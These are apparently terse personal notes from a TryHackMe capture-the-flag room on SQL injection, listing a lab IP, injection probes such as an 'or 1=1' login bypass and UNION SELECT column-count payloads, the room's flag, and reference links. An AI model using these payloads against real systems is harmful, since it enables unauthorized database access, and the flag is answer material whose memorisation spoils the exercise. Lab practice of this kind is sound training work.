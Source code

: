 
https://tryhackme.com/r/room/lessonlearned

```
10.10.21.2

nothing in source code 

admin'' or 1=1 --   fails / dangerous


'foo' || 'bar'

1'UNION SELECT null-- -
test

1' UNION SELECT null,null-- -

1' UNION SELECT null,null,null-- -

1' UNION SELECT null— — —
select * from users; -- -


THM{aab02c6b76bb752456a54c80c2d6fb1e}
```

https://medium.com/@krang2k/tryhackme-lesson-learned-d01924407c0d

https://book.hacktricks.wiki/en/pentesting-web/sql-injection/index.html?highlight=sql#what-is-sql-injection

